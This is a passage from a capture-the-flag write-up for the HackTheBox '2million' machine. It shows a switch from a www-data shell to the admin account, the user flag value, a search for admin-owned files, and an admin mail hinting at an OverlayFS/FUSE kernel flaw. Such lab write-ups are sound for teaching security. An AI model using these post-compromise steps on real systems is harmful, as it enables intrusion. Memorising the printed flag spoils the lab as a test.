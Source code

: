 Given their name, they might have administrator privileges.

### Lateral Movement

```bash
(remote) www-data@2million:/var/www/html$ su admin
Password:
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
admin@2million:/var/www/html$ id
uid=1000(admin) gid=1000(admin) groups=1000(admin)
admin@2million:/var/www/html$ cd
admin@2million:~$ ls -la
total 32
drwxr-xr-x 4 admin admin 4096 Jun 6 2023 .
drwxr-xr-x 3 root root 4096 Jun 6 2023 ..
lrwxrwxrwx 1 root root 9 May 26 2023 .bash_history -> /dev/null
-rw-r--r-- 1 admin admin 220 May 26 2023 .bash_logout
-rw-r--r-- 1 admin admin 3771 May 26 2023 .bashrc
drwx------ 2 admin admin 4096 Jun 6 2023 .cache
-rw-r--r-- 1 admin admin 807 May 26 2023 .profile
drwx------ 2 admin admin 4096 Jun 6 2023 .ssh
-rw-r----- 1 root admin 33 Aug 10 13:30 user.txt
admin@2million:~$ cat user.txt
5afc549d5971e9599c2e1c5f9189ede3
```

Perfect, we were able to log in as `admin` and retrieve the `user.txt` flag.

**Answer:** `5afc549d5971e9599c2e1c5f9189ede3`

## Q11 - Source Email

**Reminder:** *What is the sender's email address of the email sent to admin?*

I tried to check if the `admin` user had **sudo** privileges with the command: `sudo -l`, but unfortunately, they don't.

Well, let's try to see the files that belong to the `admin` user.

```bash
(remote) www-data@2million:/etc$ find / -type f -readable -user admin 2>/dev/null
/home/admin/.profile
/home/admin/.bash_logout
/home/admin/.bashrc
/var/mail/admin
```

The `/var/mail/admin` file seems interesting; let's see what it contains:

```bash
(remote) www-data@2million:/etc$ cat /var/mail/admin
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2
Hey admin,
I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.
HTB Godfather
```
